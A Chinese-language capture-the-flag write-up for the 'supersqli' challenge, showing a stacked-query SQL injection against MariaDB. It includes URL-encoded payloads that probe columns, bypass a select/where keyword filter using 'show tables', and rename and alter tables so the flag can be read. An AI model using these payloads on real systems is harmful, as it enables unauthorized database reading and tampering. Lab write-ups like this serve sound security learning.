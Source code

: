 # supersqli

题目描述：随便注

遇到 `SQL` 题我是有一点点恶感和害怕的, 感觉每题的注射方式都不一样!

尝试一些简单的值: `1'` 返回错误:

`error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1`

从 `MariaDB` 我们可以知道这题是 `MYSQL` 注入.

检查 `table` 有 2 `columns`:

```
?inject=1'+order+by+1--+
?inject=1'+order+by+2--+
?inject=1'+order+by+3--+ 返回错误
```

本题也 `filter` 一些字:

```
?inject=1'+union+select+1,2--+
返回: return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

试了所有我知道的方法, 还是不能绕过这个 `filter`. 太绝望了, 决定找一下 write up. 原来在 `MYSQL` 中有命令 `show` 可以用.

显示 `table`:

`?inject=-1';show+tables--+-`

`-1` 是用来清除页面, 因为 `inject=-1` 没有显示任何数据. 我们得到 `2` 个 `table` 是 `1919810931114514` 和 `words`. 以为到这应该快要成功. 显示 `table` 的 `columns`:

```
?inject=-1';show+columns+from+1919810931114514--+-
```

```
array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

`?inject=-1';show+columns+from+words--+-`

```
array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(10)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

又是一次绝望, 看了 write up 后, 原来还有这样一种思路: 因为当开始我门读取 `inject=1`, `inject=2` 只读到两个 `inject` 的值, 所以页面显示我们可以读取的数据属于 `words`, 但 `flag` 又在 `1919810931114514` 里. 那么, 可以把这两个 `table` 的内容相换!!!

```
?inject=-1'%3bRENAME+TABLE+`words`+TO+`words1`%3bRENAME+TABLE+`1919810931114514`+TO+`words`%3bALTER+TABLE+`words`+CHANGE+`flag`+`id`+VARCHAR(100)+CHARACTER+SET+utf8+COLLATE+utf8_general_ci+NOT+NULL%3b--+-
```

现在我们已经可以读取 `words` 的内容和那到 `flag`:

`?inject=1'+or+1=1--+-`
